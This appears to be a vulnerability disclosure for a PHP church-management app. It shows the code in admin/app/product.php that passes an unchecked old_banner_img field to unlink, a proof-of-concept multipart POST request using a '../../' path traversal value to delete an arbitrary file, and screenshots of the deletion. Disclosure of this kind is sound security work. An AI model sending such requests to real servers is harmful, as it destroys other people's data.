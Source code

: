 ### Vulnerability file address

In line 70 of `church/admin/app/product.php`, `@unlink("../../assets/images/" . htmlspecialchars($_POST['old_banner_img'], ENT_QUOTES, 'UTF-8'));`,` $_POST['old_banner_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['banner']['tmp_name'] != '') {
            $file_extension = pathinfo($_FILES["banner"]["name"], PATHINFO_EXTENSION);
            $new_filename = uniqid() . '.' . $file_extension;
            $filepath = "../../assets/images/" . $new_filename;

            if (move_uploaded_file($_FILES["banner"]["tmp_name"], $filepath)) {
                $img1 = $new_filename;

                @unlink("../../assets/images/" . htmlspecialchars($_POST['old_banner_img'], ENT_QUOTES, 'UTF-8'));
            }
        }
```

### POC

```http
POST /church/admin/app/product.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 373

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_banner_img"

../../26.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="banner";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `26.txt` file in the `church/` directory

![image-20250505173715571](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051737601.png)



Then we execute the above poc to attack

![image-20250505173819586](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051738619.png)



Files are deleted after the attack is successful

![image-20250505173828451](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051738480.png)